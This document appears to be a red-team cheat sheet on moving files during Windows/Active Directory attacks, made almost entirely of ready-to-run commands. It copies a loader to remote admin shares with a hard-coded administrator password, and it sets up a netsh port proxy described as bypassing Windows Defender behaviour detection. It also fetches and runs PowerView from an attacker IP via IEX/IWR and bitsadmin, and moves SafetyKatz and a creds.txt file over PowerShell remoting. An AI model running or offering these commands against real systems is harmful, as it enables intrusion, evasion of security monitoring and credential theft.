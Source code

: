 
## Basic File Transfer
```cmd
echo F | xcopy C:\AD\Tools\Loader.exe \\usweb\C$\Users\Public\Loader.exe /Y
```
---

## Net use

**Upload files to remote computer by mapping remote folder to our drive X on our machine:**
```cmd
net use x: \\server1\C$\Users\Public /user:server1\Administrator Password123!
```

**Copy desired file to the remote machine:**
```cmd
echo Y | xcopy C:\Loader.exe x:\Loader.exe
```

**Remove the mapping:**
```cmd
net use x: /d
```

> ⚠️ **PAY ATTENTION:**
> Check if non-admin can mount it.
---

## Bypass behaviour detection when downloading a file

> ⚠️ **PAY ATTENTION:**
> Needs admin privileges.

**Forwards anything sent to port 8080 to any IP in the local machine to port 80 on our machine:**

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.1.131
```

>**ℹ️ Info:**
>Since the download is "happening" on localhost, we bypass behaviour detection from Windows Defender.

**Removing the port forward:**
```cmd
netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=0.0.0.0
```
---

## Rejetto HFS
https://github.com/rejetto/hfs/releases/download/v0.56.0/hfs-windows-x64-0.56.0.zip

**Normal file download:**
```powershell
IEX(IWR -usebasicparsing http://192.168.1.131/PowerView.ps1 -outfile PowerView.ps1)
```

**Behaviour detection bypass download:**
```powershell
IEX(IWR -usebasicparsing http://127.0.0.1:8080/PowerView.ps1 -outfile PowerView.ps1)
```
---

## BITS Jobs

**Normal file download:**
```powershell
bitsadmin /transfer myjob /download /priority high http://192.168.1.131/PowerView.ps1 c:\temp\PowerView.ps1
```

**Behaviour detection bypass download:**
```powershell
bitsadmin /transfer myjob /download /priority high http://127.0.0.1:8080/PowerView.ps1 c:\temp\PowerView.ps1
```
---

## PowerShell Remoting

**Copy item to PSSession:**
```powershell
Copy-Item -ToSession $sess -Path "C:\Tools\SafetyKatz.exe" -Destination "C:\Users\Public\" -verbose
```

**Copy item from PSSession**

```powershell
Copy-Item -FromSession $sess -Path "C:\Logs\creds.txt" -Destination "C:\AD\" -verbose
```
---

## Base64

**Base64 encode:**
```powershell
certutil -encode foo.exe foo.b64
```

**Base64 decode:**
```powershell
certutil -decode foo.b64 foo.exe
```
